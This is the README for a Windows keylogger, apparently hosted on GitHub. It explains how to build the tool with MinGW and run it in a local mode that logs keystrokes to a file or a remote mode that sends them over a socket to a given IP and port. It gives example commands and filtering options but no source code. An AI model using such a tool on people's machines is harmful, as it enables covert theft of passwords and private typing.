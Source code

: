 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## Parameters

### [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

### [OPTIONAL]

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

